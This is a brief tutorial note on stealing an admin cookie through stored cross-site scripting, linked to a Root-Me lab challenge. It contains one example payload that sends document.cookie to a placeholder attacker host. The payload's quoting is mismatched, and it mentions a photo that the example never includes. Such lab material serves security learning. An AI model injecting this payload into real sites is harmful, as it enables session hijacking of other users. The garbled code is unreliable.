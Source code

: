 Steal Admin Cookie with Xss Stored Exampl: 

Imagine that you are on a website that has a polling forum By entering a comment, your input will be placed in the DOM of the page Now, for example, you can enter a JavaScript code in the comments section and it will sit on the DOM page and be executed Now, if the admin clicks on it, the cookie will be sent to your host


  -Example Payload: 


            <script> document.write("<HOST_URL>?test='+document.cookie+'"); </script>

In this payload, the admin cookie is placed in the test parameter and when the admin clicks on the photo, his cookie is sent to the attacker.


Lab: 


https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1?lang=en&action_solution=voir&debut_affiche_solutions=9#pagination_affiche_solutions
